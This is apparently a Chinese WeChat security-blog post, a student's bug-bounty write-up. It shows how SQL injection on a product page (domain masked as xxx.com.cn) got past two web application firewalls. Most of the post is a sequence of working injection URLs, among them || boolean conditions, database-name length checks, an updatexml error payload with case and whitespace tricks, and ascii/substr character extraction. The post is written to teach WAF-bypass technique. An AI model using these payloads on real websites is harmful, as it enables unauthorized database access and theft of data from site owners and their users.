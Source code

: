 #  SQL注入双WAF绕过

原创 隐雾安全  [ 隐雾安全 ](javascript:void\(0\);)

**隐雾安全** ![]()

微信号 gh_9355275bad2a

功能介绍 隐雾，为您提供职业成功的关键。

____

___发表于_

收录于合集

  

  

**No.1**

 **SQL注入双WAF绕过**

  

利用HPP漏洞 参数污染正常页面情况下

 **http://www.xxx.com.cn/productshow.php?id=79**

![]()

被360waf拦截

 **http://www.xxx.com.cn/productshow.php?id=79'**

![]()

进行隔断绕过

 **http://www.xxx.com.cn/productshow.php?id=79%20||%201=1**

![]()

关键字等价绕过原因是使用&&进行连接时不需要进行闭合，流程为 id=1 然后继续执行 id=2 最后--+单行注释

进一步构造payload

 **http://www.xxx.com.cn/productshow.php?id=-79%20||%20length(database()) >1**

![]()

判断数据库名长度判断

 **http://www.xxx.com.cn/productshow.php?id=-79%20||%20length(database())
>10**

二分发进行发现是6

 **http://www.xxx.com.cn/productshow.php?id=-79%20||%20length(database())=6**

  

![]()

更近一步，就蹭蹭绝对不进去这里失败了a-z都不行

**http://www.xxx.com.cn/productshow.php?id=-79%20||%20left((select%20database()),1)=a**

被waf拦截了

**http://www.xxx.com.cn/productshow.php?id=-79%20||%20updatexml(1,concat(0x7e,(sElEct%a0user()),0x7e),1)**

![]()

使用ascii进行爆库

**http://www.xxx.com.cn/productshow.php?id=-79%20||%20and%20(ascii(substr(database(),1,1))%20=109)**

![]()

这里猜测应该是and问题，给他去掉

**http://www.xxx.com.cn/productshow.php?id=-79%20||%20(ascii(substr(database(),1,1))=109)**

![]()

ascii判断出第一位是108

**http://www.xxx.com.cn/productshow.php?id=-79%20||%20(ascii(substr(database(),1,1))=108)**

![]()

所以对应的ascii表，这个第一个字符就是m了

剩下的不必多说总结：关键字等价绕过ascii判断，and不行直接丢掉

  

Src学员投稿  

  

 **No.2**

 **网安沟通交流群  
**

  

![]()

 **扫码加客服小姐姐拉群**

  
  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

